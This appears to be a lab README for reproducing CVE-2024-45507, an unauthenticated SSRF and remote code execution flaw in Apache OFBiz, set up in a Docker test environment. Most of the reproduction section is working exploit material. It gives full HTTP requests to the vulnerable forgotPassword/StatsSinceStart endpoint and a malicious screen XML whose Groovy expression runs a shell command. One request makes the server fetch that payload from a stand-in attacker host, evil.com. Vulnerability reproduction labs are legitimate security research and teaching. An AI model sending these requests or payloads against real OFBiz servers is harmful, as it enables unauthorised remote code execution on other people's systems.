 # Apache OFBiz SSRF and Remote Code Execution Vulnerability (CVE-2024-45507)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability (CVE-2024-45507) affects Apache OFBiz versions prior to 18.12.16. It allows an unauthenticated attacker to perform Server-Side Request Forgery (SSRF) and potentially achieve remote code execution.

References:

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## Vulnerable environment

Execute the following command to start an Apache OFBiz 18.12.15 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

### Server-Side Request Forgery (SSRF) attack

Send a POST request to `/webtools/control/forgotPassword/StatsSinceStart` with the following request:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

### Remote Code Execution

Create a malicious XML file (payload.xml) on a public server like `http://evil.com/ofbiz/payload.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

Then replace your malicious XML url into following request and send:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```

![](1.png)

The command `touch /tmp/success` will be executed on the target server, demonstrating successful exploitation.

![](2.png)
